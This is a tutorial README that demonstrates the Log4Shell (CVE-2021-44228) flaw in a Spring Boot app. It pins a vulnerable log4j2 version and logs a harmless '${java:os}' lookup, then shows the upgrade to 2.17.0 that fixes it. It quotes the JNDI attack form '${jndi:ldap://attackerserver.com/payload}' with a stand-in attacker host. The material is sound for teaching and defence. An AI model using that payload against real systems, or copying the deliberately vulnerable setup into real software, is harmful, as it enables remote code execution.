 # [Log4Shell](https://github.com/WISeAgent/log4j2) Demo - a non-intructive and user friendly version
Apache Log4j2 2.0-beta9 through 2.12.1 and 2.13.0 through 2.15.0 JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints. An attacker who can control log messages or log message parameters can execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled.  

Spring Boot is using logback by default.  It is also supporting the use of log4j2 and hance it's exposed to this vulnerability if not patched.

**Hacking is illegal!** The purpose of this demo is for developers/blue team member to understand how older version of log4j2 is being exploitted and how to patch it.  Instead of using ${jndi:ldap://attackerserver.com/payload} as payload, we display the OS version instead in this demo.  

## Create a New Maven Demo Project for Log4Shell(CVE-2021-44228)
### 1. Create an empty project using Spring CLI
    spring init --name=vul-log4j2 packaging=jar --package-name=au.com.wiseagent.springboot.log4j2 -a=vul-log4j2 --dependencies=web log4j2
    
### 2. Update pom.xml to use vulnerable version of log4j2
- Under <properties> section, inster a line to use vulnerable log4j2 verion, eg. 2.14.0  

      <properties>
      <java.version>1.8</java.version>
      <!-- to use the vulnerable version: CVE-2021-44228 -->
      <log4j2.version>2.14.0</log4j2.version>
      </properties>
  
- To disable default logback, and using log4j2  

      <!-- Exclude Spring Boot's Default Logging -->
      <dependency>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter</artifactId>
        <!-- disable default logging -->
        <exclusions>
          <exclusion>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-logging</artifactId>
          </exclusion>
        </exclusions>
      </dependency>

      <!-- Add Log4j2 Dependency -->
      <dependency>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-log4j2</artifactId>
      </dependency>
### 3. Import the Maven project to your Eclipse IDE

### 4. Use Log4J2 log, to log environment variable ${java:os} as INFO instead of ${jndi:ldap://...} trigger RCE
Here is the cutdown version of the REST API implemention pass payload as RequestParam.  
For demo purpose, instead of sanitized the payload, it's hard coded to a non-instructive operation, to log the environment value for OS 

    package au.com.wiseagent.springboot.log4j2;

    import org.springframework.boot.SpringApplication;
    import org.springframework.boot.autoconfigure.SpringBootApplication;
    import org.springframework.web.bind.annotation.GetMapping;
    import org.springframework.web.bind.annotation.PathVariable;
    import org.springframework.web.bind.annotation.RequestParam;
    import org.springframework.web.bind.annotation.ResponseBody;
    import org.springframework.web.bind.annotation.RestController;
    import org.apache.logging.log4j.LogManager;
    import org.apache.logging.log4j.Logger;

    @SpringBootApplication
    @RestController
    public class VulLog4j2Application {
        private static Logger logger = LogManager.getLogger(VulLog4j2Application.class);
        public static void main(String[] args) {
          SpringApplication.run(VulLog4j2Application.class, args);
        }

      @GetMapping("/PayLoad")
      @ResponseBody
        public String PayLoad(@RequestParam  String payload) {
        payload="${java:os}"; // override the payload
        logger.info(payload);
        return "payload received" + payload;
      }
    }

 ### 5. Start your REST API service from IDE or from command line  
    
        java -jar target/vul-log4j2-0.0.1-SNAPSHOT.jar
 
    
From your browser, entry to the following to trigger the REST API call.  
  
    http://localhost:8080/PayLoad?payload=$%7Bjava:os%7D
  
  ![image](https://user-images.githubusercontent.com/853925/147844381-a20bc303-47eb-4d8f-9c1e-582c9bd6d017.png)

**It can be observed that the variable ${java:os} has been evaluated, and replaced by the OS value in the log.**
## Patch your application for Log4Shell
### Update pom.xml file to use updated version of log4j2, which patched the CVE-2021-44228

      <properties>
      <java.version>1.8</java.version>
      <!-- to use updated version patched the CVE-2021-44228 -->
      <log4j2.version>2.17.0</log4j2.version>
      </properties>

### Stop and Start your REST API service from IDE or from command line again
From your browse, entry to the following to trigger the REST API call, and noticed that the ${java:OS} variable has been replace by the OS value in the INFO log.  
  
    http://localhost:8080/PayLoad?payload=$%7Bjava:os%7D
![image](https://user-images.githubusercontent.com/853925/147844478-65d0da64-f98a-4f11-b45a-d9a420f1ed04.png)


**It can be observed that the variable ${java:os} has not been evaluated, and it has elimiated the opportunity that an unsanitized user input being used to exploit the log4j2 vulnerability.**
